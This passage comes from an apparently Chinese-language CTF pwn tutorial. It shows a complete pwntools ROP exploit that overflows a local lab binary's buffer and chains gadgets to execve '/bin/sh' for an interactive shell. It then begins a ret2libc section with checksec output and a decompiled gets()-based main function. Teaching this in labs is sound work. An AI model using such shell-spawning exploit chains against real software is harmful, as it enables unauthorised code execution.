 或者使用`pwntools`的`ROP`模块

```python
from pwn import *
# 启动目标程序
p = process('./rop')
# 加载二进制文件
context.binary = './rop'
rop = ROP(context.binary)
# 查找 gadgets 和字符串
pop_eax_ret = rop.find_gadget(['pop eax', 'ret'])[0]
pop_edx_ecx_ebx_ret = rop.find_gadget(['pop edx', 'pop ecx', 'pop ebx', 'ret'])[0]
int_0x80 = rop.find_gadget(['int 0x80'])[0]
binsh = next(context.binary.search(b'/bin/sh'))

# 构造 ROP 链
# flat() 的主要功能是将多个数据项（如整数、字符串、列表等）拼接成一个连续的字节序列。
payload = flat(
    b'A' * 112,  # 填充缓冲区
    pop_eax_ret, 0xb,  # eax = 11 (execve 系统调用号)
    pop_edx_ecx_ebx_ret, 0, 0, binsh,  # edx = 0, ecx = 0, ebx = binsh
    int_0x80  # 触发系统调用
)

# 发送 payload
p.sendline(payload)
# 切换到交互模式
p.interactive()
```





### 4. ret2libc1

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。



```bash
seveng0@ubuntu:~/Desktop/pwn$ checksec ./ret2libc1
[*] '/home/seveng0/Desktop/pwn/ret2libc1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序开启了NX保护，没开RELRO(重定位只读)，可以覆盖`.got.plt`中的条目指向恶意代码。

ida打开

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets(s);
  return 0;
}
```

